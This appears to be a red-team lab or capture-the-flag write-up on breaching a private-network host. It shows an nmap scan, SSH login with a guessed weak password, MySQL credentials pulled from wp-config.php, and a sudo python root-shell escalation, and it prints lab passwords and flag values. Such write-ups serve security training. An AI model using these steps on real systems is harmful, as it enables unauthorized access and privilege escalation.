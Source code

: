 # **Red Team: Summary of Operations**

## TARGET 1

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveal the below services and OS details:

nmap -sV 192.168.1.110

![1](/Resources/Images/1/3.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information on vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have consequences on your business.
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restrict access to a resource from an unauthorized actor. | A user can execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows an LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely allowing them to further compromise the target.

---

## Exploitation

The Red Team was able to penetrate Target1 and retrieve the following confidential data:

**flag1.txt:**  `b9bbcb33e11b80be759c4e844862482d`

- **CWE-200** Exposure of sensitive information to an unauthorized actor
    
    Sensitive data was spotted in plain text embedded in the code of the service site. 
    
    Exploit:
    
    |  | **Flag1** |
    | -- | -- |
    | Using Google Chrome developer's Tools on the Url: `192.168.1.110/service.html` give a glance at the exposed sensitive data. | ![2](/Resources/Images/1/5.png)
  
     

    

---

**flag2.txt:** `fc3fd58dcdad9ab23faca6e9a36e581c`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        cd ../../
        find -iname “*flag*” 2>/dev/null
        cat /var/www/flag2.txt
    ```

    **Flag2**

    ![3](/Resources/Images/1/8.png)

---

**flag3.txt:**  `afc01ab56b50591e7dccf93122770cd2`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The SQL's root password is reachable in plain text on the file wp-config.php
    
    Exploit:
   
    | MySQL Root Password | Flag3 |
    | -- | -- |
    | ``nano wp-config.php`` <br /> Password: R@v3nSecurity <br /> <br />![4](/Resources/Images/1/9.png)  | `mysql -u root -p` <br /> Password: R@v3nSecurity <br /> `mysql> show databases;` `mysql> use wordpress;` <br />  `mysql> show tables;` <br /> `mysql> select * from wp_posts;` <br />  <br />![11](/Resources/Images/1/22.png) 

    >#### note: Flag4 also appears in this exploit.

---

**flag4.txt:**  `715dea6c055b9fe3337544932f2941ce`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows the execution of a Python Script that leads to root access to the system.
  
    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:
    
    1. Steven has the privilege to run python language as a root user
        ```   
            su steven
            Password: pink84
            sudo -l  
        ```
    
        ![8](/Resources/Images/1/16.png)

    2. Python Script
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")' | **Flag4**: cat /root/flag4.txt
        ---|---
        ![9](/Resources/Images/1/17.png) |   ![10](/Resources/Images/1/19.png)